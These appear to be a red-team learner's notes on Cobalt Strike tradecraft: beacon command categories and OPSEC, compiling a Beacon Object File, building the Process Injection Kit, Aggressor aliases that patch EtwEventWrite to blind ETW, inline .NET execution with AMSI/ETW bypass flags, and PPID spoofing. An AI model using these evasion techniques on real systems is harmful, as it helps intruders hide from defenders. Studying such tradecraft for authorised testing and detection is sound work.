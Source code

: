 Command Categories
- House-Keeping - beacon configuration
- API Only - built into payload using Windows API
- Inline Execution - Beacon Object Files executed within process
- Fork & Run - spawn temporary process and inject DLL
Exceptions
- spawn cmd.exe (shell)
- spawn powershell.exe (jump winrm/64, remote-exec winrm)
- spawn arbitrary process (run)
[Commands and OPSEC Considerations](https://hstechdocs.helpsystems.com/manuals/cobaltstrike/current/userguide/content/topics/appendix-a_beacon-opsec-considerations.htm)

**Fork & Run**: process injection → reflective load post-ex DLL (similar to [[#Payload Theory]])
Modify process injection with **Process Injection Kit**
Modify reflective DLL loader with **User-Defined Reflective Loader Kit**
#### BOF Memory Allocations
sleep BOF for testing (to inspect memory)
```c++
#include <windows.h>
#include "beacon.h"

DECLSPEC_IMPORT VOID WINAPI KERNEL32$Sleep(DWORD);

void go(char* args, int len) {
	KERNEL32$Sleep(30000);
}
```
VS command prompt: `cl.exe /c /GS- bof.c /Fo bof.o`
Linux: `x86_64-w64-mingw32-gcc -c bof.c -o bof.o`

run in Cobalt Strike with `inline-execute [path]\bof.o`
#### Process Injection Kit
`cd /mnt/c/Tools/cobaltstrike/arsenal-kit/kits/process_inject`
`./build.sh /mnt/c/Tools/cobaltstrike/process-inject`
#### ETW
powerpick and execute-assembly etw bypass (save as .cna)
```
# $1 - the id for the beacon
# $2 - the cmdlet and arguments
# $3 - [optional] if specified, powershell-import script is ignored and this argument is treated as the download cradle to prepend to the command
# $4 - [optional] PATCHES

alias powerpick-patched {
	bpowerpick($1, $2, $3, "PATCHES: ntdll.dll,EtwEventWrite,0,C300");
}

# $1 - the id for the beacon
# $2 - the local path to the .NET executable assembly
# $3 - parameters to pass to the assembly
# $4 - [optional] PATCHES

alias execute-assembly-patched {
	bexecute_assembly($1, $2, $3, "PATCHES: ntdll.dll,EtwEventWrite,0,C300");
}
```
#### Inline (.NET) Execution
`inlineExecute-Assembly --amsi --etw --appdomain [domain] --pipe [pipe] --dotnetassembly [assembly] --assemblyargs [args]`
`inlineExecute-Assembly --amsi --etw --appdomain SharedDomain --pipe dotnet-diagnostic-1337 --dotnetassembly [assembly] --assemblyargs [args]`
#### Fork & Run
spoof ppid: `ppid [pid]`